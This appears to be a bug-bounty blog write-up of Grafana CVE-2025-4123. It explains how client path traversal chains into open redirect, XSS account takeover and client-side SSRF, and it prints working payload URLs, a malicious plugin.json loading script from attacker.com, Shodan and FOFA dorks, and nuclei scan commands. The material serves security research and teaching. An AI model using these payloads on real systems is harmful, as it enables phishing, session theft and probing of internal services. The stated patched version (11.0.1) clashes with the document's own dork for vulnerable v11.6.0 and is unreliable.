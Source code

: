 How One Path Traversal in Grafana Unleashed XSS, Open Redirect and SSRF (CVE-2025–4123)
Abusing Client Path Traversal to Chain XSS, SSRF and Open Redirect in Grafana
coffinxp
coffinxp

Following
4 min read
·
Jun 3, 2025
281


4






Introduction
A high-severity security vulnerability has been discovered in Grafana, identified as CVE-2025–4123, which combines client path traversal and open redirect issues to enable cross-site scripting (XSS) to account takeover.

In this article, i’ll explain the CVE-2025–4123 vulnerability, show how it can be exploited and share tips to fix it. Whether you’re a bug bounty hunter, security engineer or developer it’s important to understand this issue.

What is Grafana ?
Grafana is an open-source analytics and visualization platform used to monitor and display metrics from various data sources like Prometheus, InfluxDB, MySQL and more. It’s widely used for creating interactive dashboards and setting up alerts for infrastructure and application monitoring

Root Cause Analysis
Grafana’s frontend does not properly normalize or sanitize URL paths used for plugin loading and navigation. This allows encoded path traversal sequences (../, backslashes, percent-encoding) to break out of intended directories and inject attacker-controlled domains or internal IPs.

This flawed path handling leads to:

XSS: Loading attacker-controlled scripts via malicious plugin manifests using path traversal.
Open Redirect: Redirecting users to external sites through crafted traversal URLs.
Client-Side SSRF: Forcing requests to internal or metadata URLs by abusing plugin resource loading.
The root cause is missing strict path validation and normalization in client-side routing and resource loading.

Exploitation Techniques
Let’s explore how each attack vector can be exploited through this vulnerability, from injecting malicious scripts to redirecting users and accessing internal services.

Open Redirect via Path Traversal
Grafana’s client-side path handling can be abused to perform open redirects by leveraging encoded path traversal and backslash bypass techniques. The application fails to properly validate or normalize deeply encoded paths, allowing attackers to smuggle external URLs into internal routing logic.

https://domain.com/public/..%2F%5coast.pro%2F%3f%2F..%2F..
This tricks Grafana into treating the external domain (oast.pro) as part of its internal routing logic. When a user clicks on this crafted link, it appears to be from a trusted Grafana instance but silently redirects them to a malicious external site perfect for phishing, session theft, or malware delivery.

Account Takeover through XSS
This vulnerability doesn’t just allow open redirects. it can also be abused to achieve full Cross-Site Scripting (XSS) by loading malicious JavaScript through a forged plugin configuration.

To simulate the exploit, attackers can host their own server containing the necessary JavaScript and a crafted plugin.json file like this:

{
    "name": "ExploitPluginReq",
    "type": "app",
    "id": "grafana-lokiexplore-app",
    "enabled": true,
    "pinned": true,
    "autoEnabled": true,
    "module": "http://attacker.com/file?js=file", //malicious js file
    "baseUrl": "public/plugins/grafana-lokiexplore-app",
    "info": {
        "author": {...}
    }
    ...
}
Then, load the following route:

/a/..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore
This crafted route exploits the client-side path traversal, allowing Grafana to treat the external domain as a local plugin, effectively loading and executing the remote malicious JavaScript.

SSRF via Internal Path Abuse
Grafana’s plugin loading mechanism can be tricked into fetching resources from internal services like 127.0.0.1 by abusing client-side path traversal. By encoding the path to bypass validation, attackers can force the frontend to request internal URLs.

/a/..%2f..%2f..%2fpublic%2f..%252f%255C127.0.0.1%252f%253Fp%252f..%252f..%23/explore
This payload makes Grafana treat 127.0.0.1 as a plugin source, resulting in client-side SSRF, useful for probing internal services or exfiltrating data from restricted endpoints.

Hunting Tips for Bug Bounty
This is a goldmine for bug bounty hunters. Grafana instances are often exposed on public dashboards via tools like Shodan, fofa or Censys. Here’s how you can hunt them down using Shodan and FOFA:

Shodan Search
hostname:"domain.com" title:"Grafana"
product:"Grafana"

Fofa Search
app="Grafana"
domain="domain.com" && "Grafana"
domain="domain.com" && "Grafana" && icon_hash="2123863676"
app="Grafana" && (body="Grafana v11.6.0")

CVE 2025–4123 Nuclei template
Quickly identify Grafana instances vulnerable to CVE-2025–4123 by using nuclei template:

echo domain.com | nuclei -t /nuclei-templates/http/cves/2025/CVE-2025-4123.yaml
cat domains.txt | nuclei -t /nuclei-templates/http/cves/2025/CVE-2025-4123.yaml

Grafana - XSS / Open Redirect / SSRF via Client Path Traversal
An open redirect vulnerability in Grafana can be chained with other issues, such as XSS or SSRF, to increase impact. An…
cloud.projectdiscovery.io

Mitigation
The Grafana team has released a patch in version 11.0.1 that properly:

Normalizes paths
Rejects external domains
Escapes embedded strings
Conclusion
CVE-2025–4123 shows how a simple path handling flaw can lead to major issues like XSS, open redirects and client-side SSRF. It’s a clear reminder of the importance of proper input validation and path normalization especially in complex frontend apps like Grafana.

Upnext: If you found this helpful, you’ll definitely want to check out my article GitHub Recon: The Underrated Technique to Discover High-Impact Leaks in Bug Bounty. It’s a goldmine of methods to uncover exposed secrets, endpoints and credentials 👇

GitHub Recon: The Underrated Technique to Discover High-Impact Leaks in Bug Bounty
Master the Art of Finding API Keys, Credentials and Sensitive Data in Public Repositories
infosecwriteups.com

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly
